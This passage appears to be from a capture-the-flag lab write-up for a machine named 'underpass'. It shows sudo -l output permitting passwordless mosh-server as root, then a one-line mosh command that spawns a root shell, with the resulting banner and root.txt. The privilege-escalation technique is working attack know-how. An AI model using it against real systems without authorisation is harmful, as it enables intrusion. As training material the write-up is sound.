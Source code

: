 Let's now try to escalate our privileges to root.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

These lines tell us that we can run the `mosh-server` command as root without a password. Let's check if we can exploit this.

**MosH** is a remote terminal application that allows roaming, supports intermittent connectivity, and provides intelligent local echo and line editing of user keystrokes. Mosh is a replacement for SSH. It's more robust and responsive, especially over Wi-Fi, cellular, and long-distance links.

We can use this to spawn a shell as root.

```bash
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" localhost
```

We are now root.

```bash
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jan 12 08:02:16 PM UTC 2025

  System load:  0.0               Processes:             239
  Usage of /:   52.9% of 6.56GB   Users logged in:       2
  Memory usage: 17%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



root@underpass:~# ls
root.txt
```
